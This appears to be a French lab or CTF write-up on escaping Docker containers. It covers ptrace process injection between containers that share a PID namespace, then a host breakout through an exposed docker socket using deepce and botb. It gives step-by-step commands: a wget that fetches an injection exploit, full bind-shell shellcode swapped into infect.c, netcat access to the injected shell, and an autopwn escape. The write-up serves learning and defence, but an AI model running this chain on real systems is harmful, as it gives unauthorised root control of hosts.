 ## Container Lateral Escapce


On peut voir que le container `dns_proxy_server` est paramétré pour partager son PID Namespace avec le container `gitlab`. Les processus des 2 containers sont donc visibles par l'un ou l'autre. 

```bash
dexter@Lab:/opt$ cat dps/docker-compose.yml 
version: '3'
services:
    dps:
      image: dns_proxy_server
      environment:
        - MG_REGISTER_CONTAINER_NAMES=1
      volumes:
        - /var/run/docker.sock:/var/run/docker.sock
      pid: container:gitlab
      command: "/app/dns-proxy-server"
      networks:
        - dps
networks:
  dps:
    external: true

```



On peut aussi voir dans le docker-compose du container `dps` la commande lancée lors du démarrage du container : 

```bash
root@gitlab:/# ps aux | grep "/[a]pp/"
root       1801  0.0  0.2 627820  4064 ?        Ssl  07:03   0:00 /app/dns-proxy-server /app/dns-proxy-server
```
Voici les différents namespaces du container gitlab : 

```bash
root@gitlab:/# ll /proc/self/ns/
total 0
dr-x--x--x 2 root root 0 Jun 28 08:08 ./
dr-xr-xr-x 9 root root 0 Jun 28 08:08 ../
lrwxrwxrwx 1 root root 0 Jun 28 08:08 cgroup -> cgroup:[4026531835]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 ipc -> ipc:[4026532554]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 mnt -> mnt:[4026532552]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 net -> net:[4026532556]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 pid -> pid:[4026531836]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 pid_for_children -> pid:[4026531836]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 user -> user:[4026531837]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 uts -> uts:[4026532553]

```

Et les namespaces du container dps : 

```bash
root@gitlab:/# ll /proc/1801/ns
total 0
dr-x--x--x 2 root root 0 Jun 28 08:09 ./
dr-xr-xr-x 9 root root 0 Jun 28 07:45 ../
lrwxrwxrwx 1 root root 0 Jun 28 08:09 cgroup -> cgroup:[4026531835]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 ipc -> ipc:[4026532616]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 mnt -> mnt:[4026532614]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 net -> net:[4026532618]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 pid -> pid:[4026531836]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 pid_for_children -> pid:[4026531836]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 user -> user:[4026531837]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 uts -> uts:[4026532615]
```

On peut voir qu'en plus de partager le namespace PID ils partagent aussi le namespace users. Ce qui veut dire que root sur container gitlab sera aussi root sur le container dps.

Le docker-compose de gitlab nous montre une capabilities qui n'est pas par défaut lors de la création d'un container : ptrace. 

Ceci est confirmé dans le container : 

```bash
root@gitlab:/tmp# capsh --print | grep ptrace
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
```

La combinaison de ces 2 mauvaises pratiques/configuration va nous permettre de réaliser une injection de code au sein d'un processus. 

Voici un article sur l'injection de code dans un process running : [https://0x00sec.org/t/linux-infecting-running-processes/1097](https://0x00sec.org/t/linux-infecting-running-processes/1097) qui explique et propose un POC. 

Ce qu'il faut retenir c'est que tout les programmes de debug utilisent la capabilitie `ptrace`. Cette dernière permet de s'attacher à un process et de le modifier. 


### Exploit Process Injection 

```bash
root@gitlab:/dev/shm# wget https://raw.githubusercontent.com/0x00pf/0x00sec_code/master/mem_inject/infect.c

```

On remplace dans l'exploit le shellcode pour y mettre un bind sur le port 5600 (Comme ça on maitrise le paramètre du Reverse Shell dans l'exploit)

ShellCode : [https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128)

Il faut remplacer dans l'exploit `infect.c` : 

```bash 

#define SHELLCODE_SIZE 32

unsigned char *shellcode =
  "\x48\x31\xc0\x48\x89\xc2\x48\x89"
  "\xc6\x48\x8d\x3d\x04\x00\x00\x00"
  "\x04\x3b\x0f\x05\x2f\x62\x69\x6e"
  "\x2f\x73\x68\x00\xcc\x90\x90\x90";
```

par 


```bash 

#define SHELLCODE_SIZE 87

unsigned char *shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";
```

```bash
apt update && apt install gcc
root@gitlab:/dev/shm# gcc infect.c -o /tmp/infect
root@gitlab:/tmp# ./infect 
Usage:
        ./infect pid

root@gitlab:/tmp# ./infect 1801
+ Tracing process 1801
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x45c7e0
+ Setting instruction pointer to 0x45c7e2
+ Run it!
```

Le processus a bien été infecté par l'exploit. Le code malveillant ajouté au processus permet de spawn un Revershell sur le port 5600. 
Il faut maintenant trouver l'ip du container `dps`. 

Le container `gitlab` sur lequel on se trouve actuellement et le container `dps` sont sur le même network docker comme vu dans leur docker-compose. Notre user `dexter` n'a pas la permission de lancer de commande docker. Il va falloir trouver l'ip manuellement à partir du container. 

```bash 
root@gitlab:/tmp# hostname -i
172.19.0.2
``` 

On part du principe que le container `dps` sera en `172.19.0.3`
Pour se connecter à ce container on utilise netcat (qu'il faut installer comme gcc).

```bash 
root@gitlab:/tmp# nc 172.19.0.3 5600
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@448e6b22790a:/app# 
```

Une fois root sur le container `dps` il va falloir s'échapper de ce container pour arriver root sur l'host. 

## Container Breakout 

Lors de l'énumération avec le compte `dexter` on a pu avoir accès en lecture sur les docker-compose. 
On s'est rendu compte que le socket docker était exposé dans le container `dps`.
Ce partage de socket est une vulnérabilité et ne dois absolument pas être fait ou alors dans des conditions bien précises .

Nous allons l'utilisé pour passer accéder au FS entier de l'host. 

On peut faire ça à la main ou alors utiliser [deepce](https://github.com/stealthcopter/deepce). 
DeepCE est un script d'énumération docker (Comme un Linpeas/LinEnum).

Pensez à installer curl pour exploiter le socket docker.

On ne pourr pas monter de Reverse Shell sur notre Kali car les container n'ont pas d'accès direct au LAN.


```bash
oot@448e6b22790a:/app# ./deepce.sh                                                                                                                                                    [18/18]

                      ##         .                                                             
                ## ## ##        ==                                                             
             ## ## ## ##       ===           
         /"""""""""""""""""\___/ ===                                                           
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/ 
           \    \         __/
            \____\_______/
          __
     ____/ /__  ___  ____  ________                                                            
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE               
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/                                                                           
                                               
 Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
 by stealthcopter                 
                                               
==========================================( Colors )==========================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check        
[+] Negative Test ........... No 
[+] Multi line test ......... Yes                              

===================================( Enumerating Platform )===================================                                                                                                [+] Inside Container ........ Yes
[+] Container Platform ...... docker                                                           
[+] Container tools ......... None
[+] User .................... root
[+] Groups .................. root                                                             
[+] Docker Executable ....... Not Found
[+] Docker Sock ............. Yes                                                              
srw-rw---- 1 root 998 0 Jun 28 07:00 /var/run/docker.sock
[+] Sock is writable ........ Yes                                                              
The docker sock is writable, we should be able to enumerate docker, create containers 
and obtain root privs on the host machine
See https://stealthcopter.github.io/deepce/guides/docker-sock.md      
```


DeepCE nous a montré qu'un SOCKET été en lecture/écriture. Nous allons utiliser [Break out the Box](https://github.com/brompwnie/botb) pour sortir du container. 

Go étant un peu lourd à installer nous allons passer par la release direct : 
[https://github.com/brompwnie/botb/releases](https://github.com/brompwnie/botb/releases)

```
root@448e6b22790a:/tmp# ./botb-linux-amd64 -autopwn                                                                                                                                      [6/6]
[+] Break Out The Box                                                                                                                                                                         
[+] Attempting to autopwn                                                                      
[+] Hunting Docker Socks
[+] Attempting to autopwn:  /run/docker.sock                                                                                                                                                  
[+] Attempting to escape to host...                                                                                                                                                           
[+] Attempting in TTY Mode
```

Ce que fait BotB est simple, il installe docker via les sources officielles, et ensuite en utilisant le socket docker présent sur l'hôte il créer un container en lui montant le FS de l'hôte comme volume sur le nouveau container crée. 




Voilà Root sur l'host. 
